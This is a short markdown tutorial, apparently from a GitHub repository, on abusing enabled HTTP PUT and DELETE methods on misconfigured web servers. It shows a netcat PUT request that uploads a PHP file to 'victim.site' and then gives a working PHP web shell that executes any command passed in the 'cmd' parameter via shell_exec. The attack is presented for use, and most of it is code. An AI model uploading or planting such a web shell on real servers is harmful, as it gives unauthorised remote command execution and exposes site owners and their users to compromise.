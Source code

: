 # Using http verbs/methods to exploit misconfigured webapps:

verbs:
- `HEAD` (used to get the response headers)
- `GET` (used to request resources like web pages, images)
- `POST` (used to submit html form data)
- `PUT` (used to upload a file to the server)
- `DELETE` (used to remove a file from the server)
- `OPTIONS` (used to check the web server for enabled http verbs)


### Exploit DELETE verb:
- `DELETE /path/to/resource.txt`

### Exploit PUT verb:
you have to know the size of the file you want to upload on the server.
for that we can use the unix utility `wc`.

Command: `wc -m payload.php`
Response: `20 payload.php`
```php
$ nc victim.site 80 
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```

- Uploading PHP Shell:
```php
<?php 
if (isset($_GET['cmd']))
{
	$cmd = $_GET['cmd'];
	echo '<pre>';
	$result = shell_exec($cmd);
	echo $result;
	echo '</pre>';
}
?>
```

### The PHP Shell in use: 
![Pasted image 20220124080435](https://user-images.githubusercontent.com/33517160/156137337-85b71439-6f42-40df-aec9-8afc7a560913.png)

**By 0xRar**
